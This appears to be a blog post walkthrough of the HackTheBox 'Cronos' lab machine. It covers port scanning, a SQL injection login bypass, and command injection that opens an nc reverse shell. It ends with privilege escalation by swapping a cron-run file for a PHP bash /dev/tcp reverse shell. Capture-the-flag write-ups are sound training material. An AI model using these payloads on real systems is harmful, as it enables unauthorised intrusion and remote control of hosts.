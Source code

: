 ```yaml
---
layout: default
title:  "HackTheBox"
date:   2020-07-14
categories: HackTheBox
---
```


# HackTheBox - Cronos

Welcome back with another HackTheBox machine


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594878011254_Screenshot+2020-07-16+at+11.09.53+AM.png)


Cronos is a **Linux** based **Medium** severity machine. This machine is highly recommended for beginners. Initial shell requires basic web application tricks whereas post exploitation is also something which we have seen before.

**Tools:**


- PortScan - Masscan and Nmap
- Subdomain Enumeration - Dig

**Initial Recon:**

As always start with scanning all ports, I have used masscan and nmap.


    #masscan
    open tcp 80 10.10.10.13 1594390115
    open tcp 53 10.10.10.13 1594390124
    open udp 53 10.10.10.13 1594390129
    open tcp 22 10.10.10.13 1594390142

******Nmap**


    PORT   STATE  SERVICE VERSION
    22/tcp open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
    |   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
    |_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
    53/tcp open   domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
    80/tcp open   http    Apache httpd 2.4.18 ((Ubuntu))                                                                                                                                                         
    | http-cookie-flags:                                                                                                                                                                                         
    |   /:                                                                                                                                                                                                       
    |     PHPSESSID:                                                                                                                                                                                             
    |_      httponly flag not set                                                                                                                                                                                
    |_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                                                                 
    |_http-title: Login Page                                                                                                                                                                                     
    | vulners:                                                                                                                                                                                                   
    |   cpe:/a:apache:http_server:2.4.18:                                                                                                                                                                        
    |       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679                                                                                                                                        
    |       CVE-2017-7668   7.5     https://vulners.com/cve/CVE-2017-7668                                                                                                                                        
    |       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169                                                                                                                                        
    |       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167                                                                                                                                        
    |       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211                                                                                                                                        
    |       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312                                                                                                                                        
    |       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715                                                                                                                                       
    |       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082                                                                                                                                       
    |       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
    |       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
    |       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
    |       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
    |       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
    |       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
    |       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
    |       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
    |       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
    |       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
    |       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
    |       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
    |       CVE-2016-8740   5.0     https://vulners.com/cve/CVE-2016-8740
    |       CVE-2016-4979   5.0     https://vulners.com/cve/CVE-2016-4979
    |       CVE-2019-0197   4.9     https://vulners.com/cve/CVE-2019-0197
    |       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
    |       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
    |       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
    |       CVE-2016-1546   4.3     https://vulners.com/cve/CVE-2016-1546
    |       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
    |_      CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
    22/udp closed ssh
    53/udp open   domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
    | dns-nsid: 
    |_  bind.version: 9.10.3-P4-Ubuntu
    80/udp closed http
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Linux 3.16 (94%), Linux 3.2 - 4.9 (94%), Linux 4.2 (94%), Linux 3.10 - 4.11 (93%), Linux 3.12 (93%), Linux 3.13 (93%), Linux 3.13 or 4.2 (93%), Linux 3.16 - 4.6 (93%), Linux 3.18 (93%), Linux 3.8 - 3.11 (93%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    TRACEROUTE (using proto 1/icmp)
    HOP RTT       ADDRESS
    1   560.94 ms 10.10.14.1
    2   543.36 ms admin.cronos.htb (10.10.10.13)
    
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 62.65 seconds
    

Accessing cronos.htb we result in something like this


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594881469139_Screenshot+2020-07-16+at+12.06.48+PM.png)


 
You will get subdomain **admin.cronos.htb** , only when you configure ip address and domain in **/etc/hosts**

Another way to find subdomains is using dig command (DNS Zone transfer misconfiguration ) [Reference](https://hackertarget.com/zone-transfer/)

**Initial Shell as www-data:**

By accessing admin.cronos.htb, a login pages was there


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594879944308_Screenshot+2020-07-16+at+11.41.57+AM.png)


I tried using common password which actually didn’t work, but found basic SQLi which allowed me in


    username: ‘ or 1=1#
    password: ‘ or 1=1#

So there is something where we can execute our shell commands


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880129024_Screenshot+2020-07-16+at+11.44.45+AM.png)


If you are one who have played [DVWA](http://www.dvwa.co.uk/) (Damn Vulnerable Web Application), then this won’t be a big deal for,


    127.0.0.1 && ls


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880448697_Screenshot+2020-07-16+at+11.50.39+AM.png)



    127.0.0.1 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.x.x 1234 >/tmp/f


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880601810_Screenshot+2020-07-16+at+11.53.13+AM.png)


Use below command to read user flag


    cat /home/noulis/user.txt

**Privilege Escalation:**

While running crontab found a intresting crontab activity which runs every minute


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594886147602_Screenshot+2020-07-16+at+1.25.06+PM.png)


Lets backup the file content so we can retrive it if something goes wrong


    mv artisan artisan.bak


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594885217965_Screenshot+2020-07-16+at+1.10.03+PM.png)



So i created a php reverse shell file in my local machine


    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.x.x/1234 0>&1'");
    ?>

Transfer the file to vulnerable machine using command


    In my machine
    python -m SimpleHTTPServer <portnumber>


    In Victim machine
    wget http://10.10.x.x:<portnumber>/filename

I have used this you can use any file transfer technique

Now lets delete file **artisan** and change our file name as artisan


    rm artisan
    mv shell.php artisan

Since this file executes for every minute, we can start a netcat listner in our machine 

BOOM!!


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594885450090_Screenshot+2020-07-16+at+1.13.58+PM.png)


Thank you !! Will see you again in my next post

<div id="hyvor-talk-view"></div>
<script type="text/javascript">
    var HYVOR_TALK_WEBSITE = 961; // DO NOT CHANGE THIS
    var HYVOR_TALK_CONFIG = {
        url: '{{ page.url | absolute_url }}',
        id: '{{page.id}}'
    };
</script>
<script async type="text/javascript" src="//talk.hyvor.com/web-api/embed"></script>
